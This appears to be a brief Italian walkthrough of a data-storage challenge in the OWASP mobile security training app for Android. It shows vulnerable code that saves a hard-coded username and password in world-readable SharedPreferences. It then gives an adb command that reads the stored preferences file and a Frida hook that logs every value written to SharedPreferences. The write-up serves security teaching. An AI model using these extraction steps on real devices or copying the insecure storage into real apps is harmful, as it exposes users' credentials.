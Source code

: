 ## OMTG-DATAST-001-SHAREDPREFERENCES

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SharedPreferences.java

```java
SharedPreferences.Editor edit = 
	getSharedPreferences("key", 1).edit();

edit.putString("username", "administrator");
edit.putString("password", "supersecret");

edit.commit();
```

Exploit:

- `$ adb shell cat /data/user/0/sg.vp.owasp_mobile.omtg_android/shared_prefs/sg.vp.owasp_mobile.omtg_android_preferences.xml`

oppure

- inietta il seguente script tramite frida per intercettare i valori salvati nelle SharedPreferences

```javascript
Java.perform(function () {
        try {
                var editorImpl = Java.use("android.app.SharedPreferencesImpl$EditorImpl");

                editorImpl.putString
                        .overload('java.lang.String', 'java.lang.String')
                        .implementation = function (key, value) {
                                console.log(key + ": " + value)

                                return this.putString(key, value)
                        }
        }
        catch(e) {
                console.log(e.message);
        }

});
```